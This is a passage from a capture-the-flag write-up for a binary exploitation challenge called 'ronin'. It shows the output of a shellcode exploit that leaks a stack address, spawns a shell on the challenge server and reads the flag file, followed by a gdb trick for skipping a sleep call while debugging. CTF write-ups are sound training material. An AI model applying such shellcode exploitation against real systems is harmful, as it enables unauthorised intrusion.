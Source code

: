 *running the exploit on the server takes a long time because the scroll function takes a long time to print out all of the text*
```
$ python3 solve.py
[*] '/root/ctf/ronin/ronin'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to pwn.chall.pwnoh.io on port 13372: Done
[*] len(shellcode)=48
[*] leak=7ffc31f7f1b0
[*] Switching to interactive mode
You found the monkey! You continue your pursuit.
Finally, the monkey stops and turns to you.
"If you wish for your weapon back, you must make me laugh." Holy shit. This monkey can talk. "Tell me a joke." "BAAAAHAHAHAHAHA WOW THAT'S A GOOD ONE. YOU'RE SO FUNNY, SAMURAI.
...NOT! THAT JOKE SUCKED!"
The monkey proceeds to launch your sword over the trees. The throw was so strong that it disappeard over the horizon.
Welp. It was a good run.
$ ls
flag.txt
ronin
$ cat flag.txt
buckeye{n3v3r_7ru57_4_741k1n9_m0nk3y}
$
[*] Interrupted
[*] Closed connection to pwn.chall.pwnoh.io port 13372
```

## A note on debugging
The `scroll` serves as our `puts` alternative, and otherwise prints a lot of stuff to the screen, but it sleeps for a long time and is a very unpleasant debugging experience. We can use `pwntools` `gdb.attach` to execute a gdb commands on the bianary when we run it which allows us to skip the function. Basically, we set the first instruction of `usleep` to be `0xc3` which is `ret`, so the real underlying function of `usleep` is never called, and `scroll` will print everything immediately without needing to wait so long every time the binary is run.

```python
gdb.attach(r, '''
    set {int}'usleep@plt'=0xc3
    c
''')
```